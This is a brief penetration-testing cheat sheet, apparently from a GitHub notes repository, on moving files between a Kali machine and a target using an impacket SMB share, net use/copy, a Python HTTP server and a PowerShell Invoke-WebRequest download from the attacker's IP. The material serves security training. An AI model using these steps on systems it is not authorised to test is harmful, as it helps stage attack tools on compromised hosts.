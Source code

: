 # File transfer

## SMB - from Windows to Kali or vice-versa

On Kali start a SMB share server on the folder you want to be shared
```
cd <path>
impacket-smbserver share $(pwd) -smb2support
```

On the target
```
net use \\<Kali IP>\share
net use
copy \\<Kali IP>\share\<file> .
dir
```

## HTTP - from Kali to target

```
cd <path>
sudo python -m SimpleHTTPServer 80
```

### download from Windows

Powershell
```
Invoke-WebRequest -Uri 'http://<Kali IP>/<filename>' -OutFile <filename> 
```





## Links
- [file transfer cheatsheet Windows and Linux](https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/)
- https://infinitelogins.com/2020/09/04/windows-file-transfer-cheatsheet/
- https://blog.certcube.com/file-transfer-cheatsheet-for-pentesters/
- https://fir3wa1-k3r.github.io/2018/10/17/File-Transfer-cheatsheet.html